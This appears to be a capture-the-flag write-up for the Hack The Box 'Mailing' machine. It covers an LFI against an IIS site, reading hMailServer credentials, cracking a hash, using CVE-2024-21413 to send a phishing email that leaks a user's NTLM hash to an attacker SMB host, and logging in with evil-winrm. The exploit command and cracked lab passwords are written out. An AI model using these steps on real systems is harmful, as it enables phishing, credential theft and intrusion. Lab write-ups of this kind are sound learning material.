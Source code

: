 ```yaml
---
description: Windows | easy | IIS server | LFI | hMailServer | CVE-2024-21413 Outlook
---
```


# Mailing



<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

On the website we can see an upload button to download pdf instruction for mail connection. with an email sent to maya@mailing.htb.



When we intercept it whith burp we can see an LFI. After looking for IIS intersting files we did check on hMailServer files to find the .ini files with Mysql credentials.





<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Lets use Hashcat to decrypt the hash :&#x20;

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

&#x20;Administrator:homenetworkingadministrator

&#x20;now that we have a password we looked for a another CVE and found CVE-2024-21413

[https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git)

```bash
python3 CVE-2024-21413.py --server "10.10.11.14" --port 465 --username "Administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url "
\\OURIP\message
" --subject "frfr"
```

goal is to send a mail to maya with a malicious link. when she will click on it she will contact ou smb server and we will intercept her Hash.&#x20;





evil-winrm -i 10.129.231.40 -u maya -p 'm4y4ngs4ri'



m4y4ngs4ri
